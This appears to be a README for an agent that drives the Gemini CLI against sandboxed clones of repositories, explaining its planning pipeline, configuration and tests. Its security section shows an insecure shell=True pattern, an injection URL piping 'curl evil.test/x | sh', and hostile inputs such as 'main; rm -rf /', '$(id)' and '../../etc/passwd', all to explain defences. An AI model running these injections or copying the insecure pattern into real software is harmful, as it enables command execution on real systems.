

# (b) Gemini CLI Tool Agent

An ADK agent whose primary tool is **the Gemini CLI itself** — a full agentic
CLI, invoked as a single tool call, against a sandboxed checkout of any
repository you point it at.

> Built with the [Google Agent Development Kit](https://google.github.io/adk-docs/).
> Inspired by [Combine ADK, Gemini CLI and Cloud Run](https://medium.com/@derrickchwong/combine-adk-gemini-cli-and-cloud-run-c5dea5118853)
> and [derrickchwong/gemini-cli-on-adk](https://github.com/derrickchwong/gemini-cli-on-adk).

---

## Why wrap a CLI as a tool

An in-process agent reasons over whatever fits in its context window. A
repository does not fit. The usual workaround — read files one at a time, keep
a mental map — burns context on plumbing and still misses things.

The Gemini CLI runs *next to the code*. It walks the real filesystem, builds
its own context from the files, and runs its own internal tool loop. So the
right move is not to replicate it: it is to **delegate to it**, and spend the
ADK agent's intelligence on the things the CLI cannot do — deciding what to
ask, breaking a vague request into answerable pieces, and assembling the
findings into the artefact the user actually wanted.

That makes this agent a study in **tool composition**: an agent driving an
agent.

## Architecture



### Two paths, deliberately

| Request shape | Path | Why |
| --- | --- | --- |
| "Where is auth handled?" | `run_gemini_cli` directly | One focused question, one CLI call. The pipeline would add latency and cost for nothing. |
| "Explain this codebase" / "write a test plan" | `codebase_analysis_pipeline` | One CLI call has to be either too vague to be useful or too large to finish. The planner splits it into 2-5 scoped invocations. |

The planner is where the value is. It turns one unanswerable question into
several answerable ones, each scoped to a directory, each demanding file paths
and line numbers so the final report is checkable.

## Security: this is the interesting part

This agent clones **untrusted third-party source** and then runs a
**subprocess** against it. The reference implementations of this pattern do
roughly:

```python
# Don't do this.
clone = f'git clone "{github_url}" "{dir}"'
subprocess.run(clone, shell=True, ...)
command = f'gemini -p "{task}"'
subprocess.run(command, shell=True, cwd=dir, ...)
```

A repository URL of `https://github.com/a/b" ; curl evil.test/x | sh ; echo "`
is then a command, not a URL. `gemini_cli_agent/workspace.py` and
`tools/gemini_cli.py` close that, and each control has a test that encodes the
attack it stops:

| Control | Where | Stops |
| --- | --- | --- |
| **No shell, ever.** argv lists with `shell=False` | every `subprocess.run` | Command injection via URL, ref, path or prompt |
| **Host allowlist**, subdomain-aware | `normalise_repo_url` | Cloning from `github.com.evil.test`, `notgithub.com`, internal hosts |
| **Scheme allowlist** (`https`, `ssh`) | `normalise_repo_url` | `file:///etc/passwd`, plaintext `http`, unauthenticated `git://` |
| **URL path charset**, no query/fragment | `normalise_repo_url` | Shell glyphs and `?upload-pack=` smuggled in the path |
| **Leading-dash rejection** | URL and ref validation | `--upload-pack=/bin/sh` being parsed by git as a flag |
| **Ref charset** | `validate_ref` | `main; rm -rf /`, `$(id)`, 300-character refs |
| **`--` before positionals** | `create_workspace` | Anything that survived validation being read as an option |
| **Path confinement** via `resolve()` + parent check | `resolve_within` | `../../etc/passwd`, absolute paths, **symlink escapes** |
| **`core.hooksPath=/dev/null`** | clone args | Repository-supplied git hooks executing on clone |
| **Environment scrubbing** to an allowlist | `build_child_env` | `AWS_SECRET_ACCESS_KEY` and friends reaching the CLI |
| **`--yolo` only when opted in** | `build_cli_argv` | The CLI modifying a checkout by default |
| **Size, count and depth caps** | `config` + `create_workspace` | A 40 GB monorepo filling a tmpfs |
| **Timeout + output truncation** | `run_gemini_cli` | A hung CLI, and unbounded stdout re-entering a prompt |

The symlink test is worth singling out. Path confinement that checks the string
before resolving it looks fine and is not: a cloned repository can contain
`escape-link -> /`. `resolve_within` resolves first, then checks ancestry,
which is why `test_symlink_escape_is_refused` passes.

## Quickstart

```bash
npm install -g @google/gemini-cli     # the tool the agent drives
cd 02-gemini-cli-tool-agent
cp .env.example .env
make dev
make check                            # confirms the agent can see the CLI
make test                             # 123 offline tests; CLI not required
make web                              # http://localhost:8000
```

Then try:

```
Explain the architecture of https://github.com/google/adk-python
```

## Project layout

```
gemini_cli_agent/
├── agent.py                     root agent (Hatch) — the ADK entrypoint
├── config.py                    settings; mostly limits, validated at import
├── constants.py                 session-state keys
├── workspace.py                 the checkout sandbox — read this one first
├── prompts.py                   all prompts
├── schemas.py                   RepoRequest, CliPlan, CliStep
├── sub_agents/
│   └── analysis_pipeline.py     intake → scout → plan → execute → synthesise
└── tools/
    ├── gemini_cli.py            the CLI, as an ADK function tool
    └── workspace_tools.py       clone / list / read / cleanup
```

## Configuration

| Variable | Default | Effect |
| --- | --- | --- |
| `ORCHESTRATOR_MODEL` | `gemini-2.5-pro` | Planning and synthesis |
| `WORKER_MODEL` | `gemini-2.5-flash` | Intake, scouting, execution |
| `GEMINI_CLI_BINARY` | `gemini` | Binary name or absolute path |
| `GEMINI_CLI_MODEL` | `gemini-2.5-pro` | The model the CLI itself uses |
| `GEMINI_CLI_TIMEOUT_SECONDS` | `600` | Ceiling per invocation |
| `GEMINI_CLI_MAX_OUTPUT_CHARS` | `60000` | Truncation before output re-enters a prompt |
| `GEMINI_CLI_ALLOW_WRITE` | `false` | Whether `--yolo` is ever passed |
| `ALLOWED_CLONE_HOSTS` | `github.com,gitlab.com,bitbucket.org` | Clone allowlist; empty is rejected at startup |
| `WORKSPACE_ROOT` | `/tmp/gemini-cli-agent` | Where clones live |
| `MAX_WORKSPACE_MB` | `512` | Per-checkout size cap |
| `MAX_CONCURRENT_WORKSPACES` | `5` | Clone count cap |
| `CLONE_DEPTH` | `1` | Shallow clone depth |

`GEMINI_CLI_ALLOW_WRITE` is the one to think hardest about. With it off the
agent is an analyst; with it on it can rewrite any repository it can clone.

## Testing

```bash
make test
```

123 tests, all offline. The Gemini CLI binary is **not** required — the
subprocess boundary is stubbed, and what is tested for real is the part that
would hurt if it were wrong:

- `test_workspace_security.py` — one test per attack in the table above,
  including the symlink escape and the suffix-confusion hostname.
- `test_gemini_cli_tool.py` — the exact argv (prompt as one entry, `--yolo`
  only when opted in), the scrubbed child environment, timeout and truncation
  behaviour, and that an empty CLI result is an error rather than a silent
  success.
- `test_workspace_tools.py` — the clone path against a **real local git
  repository**, plus the size and count caps, and that an oversized checkout is
  deleted rather than left on disk.
- `test_agent_wiring.py` — graph shape, including that **only** `ExecutorAgent`
  holds `run_gemini_cli` (any other step calling it would bypass the plan).

## Evaluation

```bash
make eval
```

| Set | Asserts |
| --- | --- |
| `workspace_lifecycle.evalset.json` | Prepares before analysing; asks for a URL rather than inventing one; cleans up on request |
| `cli_delegation.evalset.json` | Narrow questions go direct, broad ones through the pipeline; diagnoses a missing CLI; refuses a non-allowlisted host |

## Deployment

See [`deployment/README.md`](deployment/README.md). The short version: Cloud
Run, 4 GiB, 3600 s timeout, session affinity on, CLI version pinned. Agent
Engine is **not** a fit — it cannot host a Node CLI beside your Python agent.

## Known limits

- **Workspaces are per-instance.** A `workspace_id` names a directory on one
  container's disk. Session affinity papers over this; a genuinely multi-replica
  deployment needs shared storage (GCS FUSE, or a GKE PVC).
- **No incremental fetch.** Re-analysing a repository re-clones it. Fine at
  `CLONE_DEPTH=1`; wasteful if you raise it.
- **Truncation loses the middle.** Head and tail are kept because that is where
  the summary and the conclusion live, but a very long CLI answer does lose
  content, and the agent is instructed to say when that happened.
- **CLI flags are a moving target.** `build_cli_argv` is pinned by unit test and
  the image pins the version, so an upstream flag change surfaces as a failing
  test rather than a broken deploy. It still needs a human to fix.
- **The CLI is a second billing surface.** Every `run_gemini_cli` is its own
  model session, separate from the ADK agent's. A five-step plan is six model
  conversations, not one.
